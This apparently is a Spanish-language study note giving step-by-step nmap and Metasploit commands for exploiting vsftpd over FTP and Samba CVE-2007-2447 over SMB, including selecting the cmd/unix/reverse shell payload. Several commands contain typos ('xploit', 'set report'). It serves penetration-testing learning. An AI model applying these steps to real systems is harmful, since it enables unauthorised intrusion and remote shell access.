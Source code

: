 # ulnerabilidades

aqui veremos algunas vulnerabilidades de algunos sistemas

### Listas 

- FTP en linux
- SMB en linux

# FTP en linux

lo primeros que haremos es escanear los puertos con nmap y vemos los puertos que estan abiertos esta abierto el 21,
despues usaremos el search vsftp para comprobar el servicio en funcionamiento

y nos apareceran las opciones que podemos usar, en mi caso utilizare la segunda opcion, por lo tanto escribo use 1

y nos responde que no hay payloads y escribimos options ahora utilizaremos el modulo rhost escribiendo set RHOST [ip del objetivo]
podemos utilizar options para ver que podemos hacer a continuacion usaremos el comando xploit
y entrara en el FTP

# SMB en linux
voveremos a analizar los puertos y viendo que tenemos el puerto 445 abierto vamos atacarlo (el servicio de SMB)

podemos hacer un escaneo en profundidad con "nmap -sV -p 445 [ip Objetivo]" sabiendo esto vamos a iniciar la mfsconsola

ejecutaremos un auxilar de smb con el comando "use auxiliary/scanner/smb/smb_version"
ahora utilizamos el comando set hosts [ip objetivo]

y usaramos search para buscar el codigo de la vulnerabilidad "search cve:2007-2447"
escribimos el exploit que nosindica en los modulos
ponemos "show options"
ahora con "set rhost [ip objetivo]"
y "set report 445"
y "show options"
y "show payloads" para ver los payloads y usaremos el cmd/unix/reverse
y ya tenemos todo preparado para ejecutar el exploit
